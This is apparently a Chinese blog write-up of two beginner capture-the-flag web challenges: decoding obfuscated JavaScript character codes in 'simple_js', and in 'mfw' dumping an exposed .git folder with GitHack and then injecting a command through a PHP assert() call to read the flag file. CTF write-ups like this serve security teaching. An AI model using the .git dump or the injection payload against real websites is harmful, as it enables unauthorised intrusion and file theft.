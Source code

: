 # 原创
：  【攻防世界WEB】难度三星9分入门题（上）：simple_js、mfw

# 【攻防世界WEB】难度三星9分入门题（上）：simple_js、mfw

**目录**

[一、simple_js](#%E4%B8%83%E3%80%81upload1)

[解题方法：](#%E8%A7%A3%E9%A2%98%E6%96%B9%E6%B3%95%EF%BC%9A)

[过程：](#%E8%BF%87%E7%A8%8B)

[二、mfw](#%E4%BA%8C%E3%80%81mfw)

[解题方法：](#%E8%A7%A3%E9%A2%98%E6%96%B9%E6%B3%95%EF%BC%9A)

[过程：](#%E8%BF%87%E7%A8%8B%EF%BC%9A)

---


## 一、simple_js

> 




<h3>解题方法：</h3>
1、理解php代码


> 
<h3>过程：</h3>
输入框中输入密码后

 <img alt="" height="307" src="https://img-blog.csdnimg.cn/a319a70632c44a3f8f262f4fd2e0c2a4.png" width="981"/>
Ctrl+U查看源码
<pre><code>&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;JS&lt;/title&gt;
    &lt;script type="text/javascript"&gt;
    function dechiffre(pass_enc){
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab  = pass_enc.split(',');
                var tab2 = pass.split(',');var i,j,k,l=0,m,n,o,p = "";i = 0;j = tab.length;
                        k = j + (l) + (n=0);
                        n = tab2.length;
                        for(i = (o=0); i &lt; (k = j = n); i++ ){o = tab[i-l];p += String.fromCharCode((o = tab2[i]));
                                if(i == 5)break;}
                        for(i = (o=0); i &lt; (k = j = n); i++ ){
                        o = tab[i-l];
                                if(i &gt; 5 &amp;&amp; i &lt; k-1)
                                        p += String.fromCharCode((o = tab2[i]));
                        }
        p += String.fromCharCode(tab2[17]);
        pass = p;return pass;
    }
    String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));
    h = window.prompt('Enter password');
    alert( dechiffre(h) );
&lt;/script&gt;
&lt;/head&gt;
&lt;/html&gt;
</code></pre>
1、function定义了一个函数<br/> 2、被切为2部分<br/> 3、o=tab[i-1]无效，会被后面o=tab2[i]的值覆盖<br/> 4、tab数组、输入参数都没有用到
5、tab2数组的值覆盖了tab的值，输入什么密码都没用
<hr/>
获取信息：
dechiffre()：将 Unicode 编码转为一个字符
fromCharCode()： 可接受一个指定的 Unicode 值，然后返回一个字符串
10进制的字符：
70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65
16进制的字符：
 \x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30
<pre><code>    var n=String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50);
	    document.write(n);
	var m=String.fromCharCode(70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65);
		document.write(m);</code></pre>
786OsErtk12
FAUX PASSWORD HAHA
<hr/>
或者：
php运行
<pre><code>&lt;?php
$a='\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30';
$b=str_replace('\x','',$a);
echo hex2bin($b);
?&gt;</code></pre>

55,56,54,79,115,69,114,116,107,49,50

<hr/>python运行 
 <pre><code>a=[55,56,54,79,115,69,114,116,107,49,50]
b=""
for i in a:
	c=chr(i)
	b=b+c
print(b)</code></pre>

786OsErtk12

<hr/>

 FAUX PASSWORD HAHA
(人造密码哈哈)


<hr/>
题目提示(Flag格式为 Cyberpeace{xxxxxxxxx} )
所以flag为
Cyberpeace{786OsErtk12}



---


---


---


---


## 二、mfw

> 

 

<h3>解题方法：</h3>
1、.git源码泄露


> 
<h3>过程：</h3>
点进去发现只有这一个

尝试是否存在git泄露

存在git泄露
<hr/>
 
 

使用python2.7（我不想全局环境换来换去，直接在python2.7文件夹运行）
GitHack：[GitHub - lijiejie/GitHack: A `.git` folder disclosure exploit<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://github.com/lijiejie/GitHack](https://github.com/lijiejie/GitHack)
语法：python GitHack.py http://www.openssl.org/.git/
我写的是GitHack.py的绝对路径
PS C:\Python27&gt; python D:\BaiduNetdiskDownload\shenji\GitHack-master\GitHack.py http://61.147.171.105:62321/.git/




<hr/>
 打开flag.php
也没发现flag

 
 源码审计一波

自己看发现没有做任何的过滤，考虑试一试注入 

 
<hr/>
payload：
?page=').system('cat templates/flag.php');//
')闭合前面的strpos函数，//注释掉后面的
注入进去以后就是
assert("strpos('templates/').system('cat templates/flag.php');//.php', '..') === false") or die("Detected hacking attempt!");

想到了flag.php
会不会是在代码里
Ctrl+U查看源码，或者使用bp抓包，不会错过许多细节

 


---


---


---

